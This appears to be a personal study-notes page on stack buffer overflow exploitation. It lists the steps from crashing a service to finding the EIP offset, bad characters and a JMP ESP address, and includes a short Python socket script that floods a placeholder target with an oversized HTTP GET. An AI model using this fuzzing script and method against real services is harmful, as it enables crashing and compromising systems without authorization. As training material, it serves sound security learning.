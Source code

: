 ```yaml
---
layout: page
title: Steps to Reproduce
permalink: /notes/security/BufferOverflow/steps-to-reproduce
notes_section: Security
notes_category: Buffer Overflow
notes_label: Steps to Reproduce
notes_order: 2
---
```


## Overview

1. Crash the application
2. Find EIP location
3. Confirm EIP location
4. Find bad chars
5. Remove bad chars from shellcode
6. Find jmpesp value

```
#!/bin/python

import socket

s=socket.socket()
s.connect(("<target ip>", <target port>))
junk=A*4000

m1="GET"
m2="HTTP/1.1\r\n\r\n"
m=m1+junk+m2

s.send(m)

print s.recv(100)

s.close()
```


1. Crash the application by sending large number of random characters
2. Use pattern_create.rb -l <no. at which the application crashed>
3. Note the EIP value
4. Use the EIP value in pattern_offset.rb -q
5. You will get the exact offset value.
6. Add extra characters to overflow EIP
7. Check whether the EIP value changes or not
8. The EIP value must change and remain.
9. Send badchars to the target and identify the bad chars.
10. Identify and note the "jmpesp value"
